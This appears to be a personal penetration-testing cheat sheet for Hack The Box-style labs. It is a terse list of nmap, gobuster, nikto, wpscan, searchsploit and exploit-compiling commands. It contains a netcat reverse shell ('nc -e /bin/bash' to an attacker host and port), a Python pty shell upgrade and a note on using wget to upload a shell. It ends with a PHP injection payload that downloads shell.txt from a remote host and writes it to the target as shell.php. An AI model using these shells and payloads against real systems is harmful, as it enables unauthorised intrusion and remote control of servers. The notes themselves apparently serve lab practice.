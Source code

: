 # don-t-forget
For us to easily remember the things we forgot
netcad 
nc -nvlp port for listening ports wich is we wanna use that
next type id next ls or pwd
nc -e /bin/bash host ip and port when we enter system 
nmap:
nmap -sS -A -v -p --min-rate 10000 host 
nmap -p- -sV port scanning ant its version
nmap -sV -sC -v From your scans, what version is FTP running on the target?
nmap -sS -p- -Pn --min-rate host ip for            to find all open ports
nmap -sC -sV -p htb
 nmap --script vuln -A 10.129.123.49 for finding all vulnerablitie

for finding specific ports 
1) nmap -p- --min-rate 10000 -oA nmap/allports -v 10.129.95.166
2)nmap -sC -sV   -p 22,80 10.129.95.166 






when the site open u must use /robots.txt
/cgi-bin/
/cgi-bin/user.sh

gobuster:
gobuster dir -u http://host -w /usr/share/worldlists/dirbuster/directory-list-2.3-medium.txt -x .ph,.txt,.conf,.doc,.sh
gobuster  dir -u  http://10.129.123.49 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster.log -t 50


nikto -h host

searcsploit (shell shock) -m
vim (payload extension)

if u have a payload for ex
python 34900.py rhost=ip(host) lhost=ip(host) payload=reverse(or bind)

we can compile exploit wirth gcc
gcc -o exploit 44298.c 
and ls 


python -m SimpleHTTPServer 80

chmod +x exploit for giving a permission(x using execute)

msfconsole
set rpath /cgi-bin/user.sh

sudo -l say to us u can run this commands

xkcd for explain vuln with nice comic



wpscan --url http://10.129.96.68 -e u,p --plugins-detection aggressive 


wget for upload shell

sudo -u scriptmanager /bib/bash this means u get a scriptmanager rank

next time ls -la shows to us permission  




ngrok, plink,bitvise,chisel for connectintions 





dnszone using:
dig -t NS(name server)
dig axfr @nameserver nameserver

nslookup for finding nameserver

check the command injection

 python upgrade shell       python -c 'import pty; pty.spawn("/bin/bash")'
 
 ctrl u (for inspect source)
 
 ubuntu apache  2.2.22 precision for finding last ubuntu update
 and next gonna here  from mozilla: ubuntu release precise
 
 
cURL
cURL is a command-line tool to transfer data to or from a server, using any of the supported protocols (HTTP, FTP, IMAP, POP3, SCP, SFTP, SMTP, TFTP, TELNET, LDAP, or FILE). curl is powered by Libcurl. This tool is preferred for automation since it is designed to work without user interaction. curl can transfer multiple files at once. 

curl -X POST -F `file=index.php(it s changgable and it gives us a databse)(for configuration root    /var/www/phpmy/config.php.inc)` http://192.168.1.1(IP adres of ur page)/test.php(it s subdomain for this box)


eval exploit for inputs
Insertion of a distant code in the vulnerable website
<?php $z=fopen("shell.php",'w');fwrite($z,file_get_contents("http://[website]/shell.txt"));fclose($z); ?>

